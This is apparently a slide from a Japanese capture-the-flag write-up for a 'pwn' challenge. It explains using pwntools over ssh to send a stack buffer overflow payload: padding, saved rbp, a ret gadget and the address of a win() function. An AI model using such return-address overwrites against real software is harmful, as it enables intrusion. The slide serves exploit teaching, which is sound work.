

# Root Part (pwn)
pwntoolsを使用してsshで接続してバイナリを実行してペイロードを送信する。
https://github.com/Gallopsled/pwntools
書き換える内容としてはリターンアドレスを書き換えるだけ。
payload = b''
payload += b'A' * 0x100 # buf
payload += b'B' * 0x8 # saved rbp
payload += p64(ret) # stack align
payload += p64(elf.sym.win) # return address to main -> win()